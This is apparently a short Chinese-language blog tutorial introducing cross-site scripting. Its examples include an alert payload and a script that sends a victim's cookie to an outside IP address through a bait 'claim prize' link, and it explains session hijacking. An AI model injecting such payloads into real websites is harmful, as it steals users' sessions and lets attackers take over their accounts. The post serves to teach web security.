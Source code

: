 ```yaml
---
title: 跨站脚本攻击介绍
date: 2017-08-16 19:56:27
categories: 网络安全
tags: xss
---
```


## xss简介
跨站脚本在英文中称为Cross-Site Scripting，缩写为CSS。但是，由于与层叠样式表 (Cascading Style Sheets)缩写同名，特将跨站脚本缩写为XSS。
跨站脚本，顾名思义，就是恶意攻击者利用网站漏洞往Web页面里插入恶意代码 例如

### 案例一
现在假设攻击者在论坛网站A的一个帖子进行了如下回复： 
<!--more-->
```js
<script>alert("hello world")</script>
``` 

如果网站未进行相关的防御，那么其他人浏览帖子的人就会出现hello world 弹窗，这种危害性并不大。


### 案例二
但是我们可以通过xss获取用户的cookie，并查出sessionID。例如

```js
<script>alert(document.cookie)</script>
```  

你可以把你拿来的cookie定向到另一个页面，通过诱惑性的标题诱导用户点击此连接，然后就调到另外的网站 

```js  
<script type="text/javascript">
function send()
{
	var cookie = document.cookie;  
    window.location.href = "http://10.33.56.43/attackPage.asp?cookies=" + cookie;  
}  
</script> 
<a onClick="send()"><u>领奖</u></a>
```  

用户的cookie我也拿到了，如果服务端session没有设置过期的话，我以后甚至拿这个cookie而不需用户名密码，就可以以这个用户的身份登录成功，结合csrf，来搞破坏



